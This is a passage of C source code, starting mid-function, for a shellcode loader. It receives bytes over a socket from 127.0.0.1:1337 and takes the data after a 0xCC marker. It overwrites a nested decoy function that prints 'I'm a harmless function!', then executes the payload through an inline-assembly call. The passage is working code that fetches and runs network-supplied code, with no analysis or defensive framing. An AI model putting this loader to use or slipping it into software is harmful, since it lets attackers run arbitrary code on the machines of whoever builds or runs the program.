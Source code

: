 ```c
    if (recv(sockfd, reply_buf, 512, 0) < EXIT_SUCCESS) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    }

    payload_ptr = strchr(reply_buf, 0xcc);

    if (NULL == payload_ptr) {
        ret_code = EXIT_FAILURE;
        goto _FINAL;
    }

    memcpy(outbuf, payload_ptr + 1, bufsiz);

_FINAL:
    shutdown(sockfd, SHUT_RDWR);
    close(sockfd);
    return ret_code;
}

void __attribute__ ((__naked__)) exec(void (*func)()) {
    __asm__ volatile (  ".intel_syntax noprefix;"
                        "call rdi;"
                        ".att_syntax;"
                        ::: "rdi"
    );
}

void* foo(void) {
    int bar(void) { 
        char name_buf[256] = { 0 };
        printf("I'm a harmless function!\n");
        printf("Please tell me your name!\n");
        printf("Your name: ");
        fflush(stdout);
        fgets(name_buf, 255, stdin);
        name_buf[strcspn(name_buf, "\0")] = 0;
        printf("Hi %s!\n", name_buf);

        return 0; 
    }
    
    return bar;
}

int main(void) {
    size_t i = 0;
    byte outbuf[PAYLOAD_SIZE] = { 0 };

    if (fetch_bytes("127.0.0.1", 1337, outbuf, PAYLOAD_SIZE) != EXIT_SUCCESS) {
        return EXIT_FAILURE;
    }

    byte *ptr = foo();

    for (i = 0; i < PAYLOAD_SIZE;  i++) {
        *(ptr + i) = outbuf[i]; 
    }

    exec((void (*)()) ptr);

    return EXIT_SUCCESS;
}
```